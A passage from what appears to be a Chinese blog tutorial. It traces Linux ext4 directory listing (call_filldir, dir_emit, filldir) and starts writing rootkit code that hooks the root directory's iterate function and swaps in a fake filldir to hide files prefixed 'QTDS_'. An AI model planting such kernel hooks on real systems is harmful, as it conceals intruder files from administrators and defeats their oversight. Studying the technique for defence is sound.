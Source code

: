  * This is a helper function for ext4_dx_readdir.  It calls filldir
 * for all entres on the fname linked list.  (Normally there is only
 * one entry on the linked list, unless there are 62 bit hash collisions.)
 */
static int call_filldir(struct file *file, struct dir_context *ctx,
			struct fname *fname)
{
	...
	while (fname) {
		if (!dir_emit(ctx, fname->name,
				fname->name_len,
				fname->inode,
				get_dtype(sb, fname->file_type))) {
			info->extra_fname = fname;
			return 1;
		}
		fname = fname->next;
	}
    ...
}

static inline bool dir_emit(struct dir_context *ctx,
			    const char *name, int namelen,
			    u64 ino, unsigned type)
{
	return ctx->actor(ctx, name, namelen, ctx->pos, ino, type) == 0;
}
{% endhighlight %}

这一部分真的是很复杂，还涉及到了红黑树。总之追踪到最后，我们可以看到在`dir_emit`中调用了`ctx->actor`，即`filldir`。

OK。最后一环也有了，我们看`filldir`：

{% highlight c %}
// fs/readdir.c
static int filldir(struct dir_context *ctx, const char *name, int namlen,
		   loff_t offset, u64 ino, unsigned int d_type)
{
	...
}
{% endhighlight %}

正主是上面这位。现在思路已经形成了：首先钩掉`iterate`，再把我们的`iterate`中`actor`设定为我们自己的`filedir`。`filedir`很复杂，我们把自己的`filedir`做成仅仅给真正的`filedir`加层壳，把我们想要过滤掉的文件名过滤掉（不传给真正的`filedir`），把其他的正常传给`filedir`处理，再经由我们返回即可。

我们只需要替换掉根目录`/`的`iterate`即可。

**下面开工啦！**

首先给出我们的假`iterate`和假`filldir`：

{% highlight c %}
int (*real_iterate)(struct file *, struct dir_context *); 
int (*real_filldir)(struct dir_context *, const char *, int, \
                    loff_t, u64, unsigned);
int fake_iterate(struct file *filp, struct dir_context *ctx)
{
    // 备份真的 ``filldir``，以备后面之需。
    real_filldir = ctx->actor;

    // 把 ``struct dir_context`` 里的 ``actor``，
    // 也就是真的 ``filldir``
    // 替换成我们的假 ``filldir``
    *(filldir_t *)&ctx->actor = fake_filldir;

    return real_iterate(filp, ctx);
}
#define SECRET_FILE "QTDS_"